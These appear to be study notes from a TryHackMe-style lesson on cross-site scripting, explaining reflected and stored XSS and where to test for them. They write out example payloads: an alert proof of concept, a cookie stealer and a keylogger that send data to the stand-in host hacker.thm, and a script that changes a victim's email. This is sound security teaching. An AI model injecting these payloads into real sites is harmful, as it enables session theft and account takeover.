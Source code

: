 Examples of XSS Intentions:

- **Proof of Concept**: Simplest payload to demonstrate XSS is possible on a website - causing an alert box to pop up on the page with a string of text.
  - `<script>alert('XSS');</script>`
- **Session Stealing**: Details of a user's session, such as login tokens, are often kept in cookies on the target's machine.
  - `<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`
    - Takes target's cookie, base64 encodes the cookie to ensure successful transmission for control to be logged in.
- **Key Logger**: Acts as a key logger where anything typed on the webpage will be forwarded to a website under the hacker's control.
  - `<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`
- **Business Logic**: Calls a particular network resource or a JavaScript function. In this example for changing the email's address called `user.changeEmail()`.
  - `<script>user.changeEmail('attacker@hacker.thm');</script>`
    - Allows a password reset for the attacker.

### Reflected XSS

Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.

![reflected-error](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/a5b0dbc4d2f1f69988f82f2c5d53f6ed.png)
![reflected](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/7f90b73106d655b07874943f93533f7b.png)

A website where entering the incorrect input, an error message is displayed to the parameter in the query string directly into the page source.

- The application does not check the contents of the error parameter, which allows the attacker to insert the malicious code.

![xss](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/8e3bffe500771c03366de569c3565058.png)

- The attacker could send links or embed them into an iframe on another website containing a JavaScript payload to potential victims getting them to execute on their browser, potentially revealing session or customer information.

#### How to Test for Reflected XSS

Check every possible point of entry:

- Parameters in the URL query string
- URL file path
- Sometimes HTTP headers (unlikely exploitable)

### Stored XSS

The XSS payload is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page.

![stored-XSS](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/cc2566d297f7328d91bc8552f902210e.png)
